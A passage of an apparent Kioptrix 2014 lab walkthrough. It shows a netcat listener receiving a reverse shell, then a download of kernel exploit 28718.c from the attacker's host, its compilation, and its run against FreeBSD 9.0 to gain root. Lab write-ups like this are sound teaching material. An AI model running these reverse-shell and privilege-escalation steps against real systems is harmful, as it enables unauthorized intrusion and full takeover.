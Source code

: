 ![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix2014_shell.png)

```bash
kali@kali:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.116] 51938
sh: cant access tty; job control turned off
$ whoami
www
```

Note that the URL contains a reverse shell "oneliner" written in Perl (Bash failed me), but is "percent encoded" in order to let the browser understand all of the characters in the URL. A number of characters aren't allowed in URLs, which is why they're often encoded this way.

I spent some time looking around on the target's machine, hopefully finding a vulnerable configuration or something similar to escalate my privileges. I didn't find anything worthwhile, so I checked the version of FreeBSD that was currently running. This turned out to be 9.0, which I was able to exploit giving me full access of the machine:

```bash
$ cd /tmp
$ fetch http://192.168.56.102:7777/28718.c
28718.c                                               5563  B   50 MBps
$ ls
28718.c
aprLIihVE
aprec2a32
aprg2HyGA
mysql.sock
privcheck.txt
privesc.py
unix-privesc-check
vi.C525RjlIrs
vmware-fonts0
$ gcc 28718.c
28718.c:178:2: warning: no newline at end of file
$ ls
28718.c
a.out
aprLIihVE
aprec2a32
aprg2HyGA
mysql.sock
privcheck.txt
privesc.py
unix-privesc-check
vi.C525RjlIrs
vmware-fonts0
$ ./a.out
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
$ whoami
root
```
